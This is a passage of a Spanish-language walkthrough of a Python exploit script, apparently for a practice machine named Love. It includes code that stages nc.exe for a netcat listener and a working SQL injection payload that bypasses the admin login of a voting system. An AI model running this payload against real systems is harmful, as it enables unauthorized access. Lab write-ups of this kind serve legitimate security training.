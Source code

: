 ```python
def def_handler(sig, frame):
    print("\n\n[!] saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 3:
    print(f'[!] Uso: python3 {sys.argv[0]} "Tu IP" "Puerto para tu netcat"\n' )
    sys.exit(1)
```
Definimos las variables globales:

```
ipHost = sys.argv[1]
ipPort = sys.argv[2]
LoveIP = 'http://10.10.10.239'
s = requests.Session()
```

Tenemos la siguiente función que se encarga de obtener el path del `nc.exe` y copiarlo en el directorio actual de trabajo:

```python
def getNetcat():
    try:
        result = subprocess.check_output(["locate", "nc.exe"])
        result2 = result.decode("utf-8")
        path = result2.split("\n")[0]
        system(f'cp {path} .')
    except:
        print("nc.exe not found")
        exit(1)
```

La siguiente función corresponde a la injección sql obtenida a través de `searchsploit`, la cual nos permite logearnos como administrador en el voting system:
```python
def sqli():
    ip = f'{LoveIP}/admin/login.php'
    post_data = {
        'login':'yea',
        'password':'admin',
        'username': """dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -"""
    }
    cookies = s.cookies
    r = s.post(ip,data = post_data,cookies=cookies)

    if r.status_code == 200:
        print("[+] Injección SQL exitosa\n")
    else:
        print("[!] Injección SQL fallida\n")
        sys.exit(1)
```
